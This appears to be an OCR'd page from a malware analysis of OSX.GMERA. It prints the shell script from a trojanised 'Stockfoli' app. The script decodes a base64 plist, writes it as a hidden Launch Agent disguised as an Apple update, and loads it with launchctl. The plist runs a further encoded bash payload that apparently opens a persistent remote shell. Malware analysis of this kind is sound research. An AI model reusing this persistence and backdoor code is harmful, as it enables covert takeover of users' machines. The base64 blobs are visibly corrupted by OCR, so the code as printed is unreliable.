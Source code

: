 ![](_page_8_Picture_7.jpeg)

This script will install a persistent (hidden) Launch Agent to: ~/Library/LaunchAgents/.com.apple.upd.plist:

# $ cat Stockfoli.app/Contents/Resources/run.sh #! /bin/bash

#### ...

plist text="PD94bWwgdmVyc21vbj01MS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPCFET0NUWVBFIHBsaXN0IF BVQkxJQyAiLS8vQXBwbGUvL0RURCBQTElTVCAxLjAvL0V0IiAiaHR0cDovL3d3dy5hcHBsZS5jb20vRFREcy9Q cm9wZXJ0eUxpc3QtMS4wLmR0ZCI+CjxwbGlzdCB2ZXJzaW9uPSIxLjAiPgo8ZGljdD4KCTxrZXk+S2VlcEFsaX Z1PC9rZXk+Cgk8dHJ1ZS8+Cgk8a2V5PkxhYmVsPC9rZXk+Cgk8c3RyaW5nPmWvb55hcHBsZXMuYXBwcy51cGQ8 L3N0cm1uZz4KCTxrZXk+UHJvZ3JhbUFyZ3VtZW50czwva2V5PgoJPGFycmF5PgoJCTxzdHJpbmc+c2g8L3N0cm luZz4KCQk8c3RyaW5nPi1iPC9zdHJpbmc+CgkJPHN0cmluZz5lY2hvICdkMmhwYkdVZ09qc2daRzhnYzJ4bFDY QWdNVEF3TURBN0IITmpjbVZsYm1BdFdDQnhkV2wwT3lCc2MyOw1JQzEwYVNBNk1qVTNWek1nZkNCNFLYSm5jeU JyYVd4c01DMDVPeUJ6WTNKbFpXNGdMV1FnTFcwZ1ltRnphQ0F0WX1Bb11tRnphQ0F0YVNBK0wyUmxkaTkwWTNB dk1Ua3pMak0zTGpJeE1pNHh0el12TWpVM016TWdNRDRtTVNjN01HUnZibVU9JyB8IGJhc2U2NCAtLWR1Y29kZS B8IGJhc2g8L3N0cmluZz4KCTwvYXJyYXk+Cgk8a2V5P1J1bkF0TG9hZDwva2V5PgcJPHRydWUvPgo8L2RpY3Q+ CjwvcGxpc3Q+"

```
echo "$plist_text" | base64 --decode > "/tmp/.com.apple.upd.plist"
echo "tmpplist - $(cat /tmp/.com.apple.upd.plist))" >> /tmp/loglog
cp "/tmp/.com.apple.upd.plist" "$HOME/Library/LaunchAgents/.com.apple.upd.plist"
echo "tmpplist - $(cat $HOME/Library/LaunchAgents/.com.apple.upd.plist))" >>
/tmp/loglog
launchctl load "/tmp/.com.apple.upd.plist"
```
run.sh OSX.GMERA
